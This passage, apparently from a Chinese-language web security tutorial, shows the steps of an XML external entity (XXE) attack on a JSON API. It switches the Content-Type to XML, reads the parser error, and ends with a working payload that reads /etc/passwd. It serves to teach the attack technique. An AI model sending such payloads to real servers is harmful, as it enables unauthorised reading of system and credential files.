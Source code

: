 **HTTP Response:**

```http
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 43

{"error": "no results for name netspitest"}
```

现在我们尝试将 Content-Type 修改为 application/xml

#### **进一步请求和响应：**

**HTTP Request:**

```http
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 38

{"search":"name","value":"netspitest"}
```

**HTTP Response:**

```http
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 127

{"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
```

可以发现服务器端是能处理 xml 数据的，于是我们就可以利用这个来进行攻击

#### **最终的请求和响应：**

**HTTP Request:**

```http
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 288

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```
